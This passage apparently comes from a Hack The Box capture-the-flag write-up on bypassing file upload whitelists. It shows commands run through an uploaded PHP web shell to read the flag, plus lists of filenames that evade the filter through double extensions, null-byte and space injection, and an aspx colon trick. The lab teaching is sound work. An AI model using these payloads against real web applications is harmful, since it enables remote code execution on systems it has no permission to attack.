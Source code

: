 **Step 4: Execute Commands**
```bash
# Test execution
http://TARGET/uploads/shell.jpg.php?cmd=id

# Read flag
http://TARGET/uploads/shell.jpg.php?cmd=cat /flag.txt
```

**Step 5: Alternative Methods (if needed)**
```bash
# Try reverse double extension
filename="shell.php.jpg"

# Try character injection
filename="shell.php%00.jpg"
filename="shell.php%20.jpg"  
filename="shell.aspx:.jpg"
```

### Expected Flag Format
```bash
HTB{wh173l157_byp455_15_p0551bl3}
```

---

## Bypass Methodology

### Systematic Testing Approach

**1. Baseline Testing:**
```bash
# Test allowed extensions
.jpg, .jpeg, .png, .gif → SUCCESS
.php, .phtml, .php5 → BLOCKED
```

**2. Double Extension Testing:**
```bash
shell.jpg.php
shell.png.php  
shell.gif.phtml
```

**3. Reverse Double Extension:**
```bash
shell.php.jpg
shell.phtml.png
shell.php5.gif
```

**4. Character Injection:**
```bash
shell.php%00.jpg
shell.php%20.jpg
shell.aspx:.jpg
```

